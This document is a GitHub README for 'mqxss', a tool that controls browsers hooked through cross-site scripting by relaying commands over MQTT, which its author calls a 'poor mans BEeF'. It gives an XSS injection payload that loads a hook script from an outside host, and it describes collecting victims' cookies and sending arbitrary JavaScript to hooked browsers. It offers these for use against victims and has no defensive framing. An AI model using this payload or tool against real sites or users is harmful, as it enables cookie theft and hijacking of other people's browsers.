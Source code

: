 # mqxss


**mqxss acts as a client to communicate with hooked browsers over MQTT**

![Screenshot from 2023-07-03 00-57-22](https://github.com/grampae/mqxss/assets/36344197/72bda6c6-7e27-4269-8bc3-19d7b171a76a)



I created this without a lot of bells and whistles so that the user could send raw JS to the hooked browser.  One might even consider this to be a poor mans BEeF as no server is required, you can use a public broker (however currently uses obfuscation, encryption is in the works).

Currently all that is needed is to set the desired MQTT broker, port and base topic within the x.js file and then connect to the same broker with the client.

Then send your XSS payload to the victim, ex: '"><script src=https://example.com/x.js></script> or something similar, if vulnerable you should get a notification saying the browser has connected with some basic details including cookies etc.  Future version will generate js payload so you don't have to manually set it with broker information.

**Features:**

- **Currently only works with secure websockets however future version will supports mqtts as well.**
- **view hooked browsers**
- **view past hooked (unhooked) browsers**
- **send js to currently hooked browsers and get response if available**
- **pushover notification**

**Todo:**

- [ ] Encryption (currently just obfuscated)
- [ ] Set user , password  for brokers that require it at runtime
- [ ] Generate js payload at runtime to hook browsers with
